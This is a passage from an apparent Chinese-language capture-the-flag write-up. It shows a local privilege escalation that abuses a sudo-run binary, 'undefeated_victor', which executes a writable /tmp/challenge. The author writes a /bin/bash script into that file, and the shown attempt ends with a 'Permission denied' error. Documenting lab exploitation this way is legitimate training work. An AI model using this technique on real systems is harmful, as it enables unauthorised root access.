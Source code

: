 执行这个undefeated\_victor，就会牵扯到/tmp/challenge，如果undefeated\_victor的操作是执行challenge，那就可以在里面写入提权的命令来成功提权（因为root权限执行undefeated\_victor）


cd到tmp发现确实是没有challenge，那就直接写一个，刚好tmp目录的权限够用



```
saket@ubuntu:/tmp$ ls -liah
total 52K
786435 drwxrwxrwt 12 root root 4.0K Dec  7 08:26 .
     2 drwxr-xr-x 24 root root 4.0K Aug 29  2019 ..
789602 drwxrwxrwt  2 root root 4.0K Dec  6 22:37 .font-unix
788411 drwxrwxrwt  2 root root 4.0K Dec  6 22:37 .ICE-unix
790238 drwx------  3 root root 4.0K Dec  6 22:37 systemd-private-009a695cfec04602873ff4d0d451c890-colord.service-VimvwZ
790192 drwx------  3 root root 4.0K Dec  6 22:37 systemd-private-009a695cfec04602873ff4d0d451c890-rtkit-daemon.service-7QYuF5
789604 drwx------  3 root root 4.0K Dec  6 22:37 systemd-private-009a695cfec04602873ff4d0d451c890-systemd-timesyncd.service-3nNCGI
789603 drwxrwxrwt  2 root root 4.0K Dec  6 22:37 .Test-unix
788409 drwxrwxrwt  2 root root 4.0K Dec  6 22:37 VMwareDnD
789606 drwx------  2 root root 4.0K Dec  6 22:37 vmware-root
789614 -r--r--r--  1 root root   11 Dec  6 22:37 .X0-lock
788410 drwxrwxrwt  2 root root 4.0K Dec  6 22:37 .X11-unix
788412 drwxrwxrwt  2 root root 4.0K Dec  6 22:37 .XIM-unix

```

成功将challenge写为用于提权的bash脚本文件



```
saket@ubuntu:/tmp$ echo '#!/bin/bash' > challenge
saket@ubuntu:/tmp$ cat challenge
#!/bin/bash
saket@ubuntu:/tmp$ echo '/bin/bash' >> challenge
saket@ubuntu:/tmp$ cat challenge
#!/bin/bash
/bin/bash

```

再次执行undefeated\_victor 应该就能直接提权了（要回到/home/victor这个目录下）



```
saket@ubuntu:/home/victor$ sudo undefeated_victor
[sudo] password for saket: 
sudo: undefeated_victor: command not found
saket@ubuntu:/home/victor$ sudo /home/victor/undefeated_victor
if you can defeat me then challenge me in front of you
/home/victor/undefeated_victor: 2: /home/victor/undefeated_victor: /tmp/challenge: Permission denied

```
